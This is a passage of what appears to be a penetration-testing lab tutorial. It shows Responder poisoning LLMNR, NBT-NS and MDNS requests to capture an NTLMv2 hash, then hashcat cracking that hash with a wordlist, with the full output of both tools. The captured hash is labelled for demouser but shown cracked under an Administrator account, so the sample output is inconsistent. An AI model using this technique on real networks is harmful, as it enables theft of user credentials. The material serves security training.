 ```bash
[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Domain Master Browser)
[*] [NBT-NS] Poisoned answer sent to 10.10.110.17 for name WORKGROUP (service: Browser Election)
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[*] [LLMNR]  Poisoned answer sent to 10.10.110.17 for name mysharefoder
[*] [MDNS] Poisoned answer sent to 10.10.110.17   for name mysharefoder.local
[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : WIN7BOX\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:997b18cc61099ba2:3CC46296B0CCFC7A231D918AE1DAE521:0101000000000000B09B51939BA6D40140C54ED46AD58E890000000002000E004E004F004D00410054004300480001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D0042003100320008003000300000000000000000000000003000004289286EDA193B087E214F3E16E2BE88FEC5D9FF73197456C9A6861FF5B5D3330000000000000000
```

* All saved Hashes are located in Responder's logs directory (`/usr/share/responder/logs/`)

**Note:** If you notice multiples hashes for one account this is because NTLMv2 utilizes both a client-side and server-side challenge that is randomized for each interaction. This makes it so the resulting hashes that are sent are salted with a randomized string of numbers. This is why the hashes don't match but still represent the same password.

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344386
* Bytes.....: 139921355
* Keyspace..: 14344386

ADMINISTRATOR::WIN-487IMQOIA8E:997b18cc61099ba2:3cc46296b0ccfc7a231d918ae1dae521:0101000000000000b09b51939ba6d40140c54ed46ad58e890000000002000e004e004f004d00410054004300480001000a0053004d0042003100320004000a0053004d0042003100320003000a0053004d0042003100320005000a0053004d0042003100320008003000300000000000000000000000003000004289286eda193b087e214f3e16e2be88fec5d9ff73197456c9a6861ff5b5d3330000000000000000:P@ssword
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: ADMINISTRATOR::WIN-487IMQOIA8E:997b18cc61099ba2:3cc...000000
Time.Started.....: Mon Apr 11 16:49:34 2022 (1 sec)
Time.Estimated...: Mon Apr 11 16:49:35 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1122.4 kH/s (1.34ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 75776/14344386 (0.53%)
Rejected.........: 0/75776 (0.00%)
Restore.Point....: 73728/14344386 (0.51%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: compu -> kodiak1

Started: Mon Apr 11 16:49:34 2022
Stopped: Mon Apr 11 16:49:37 2022
```
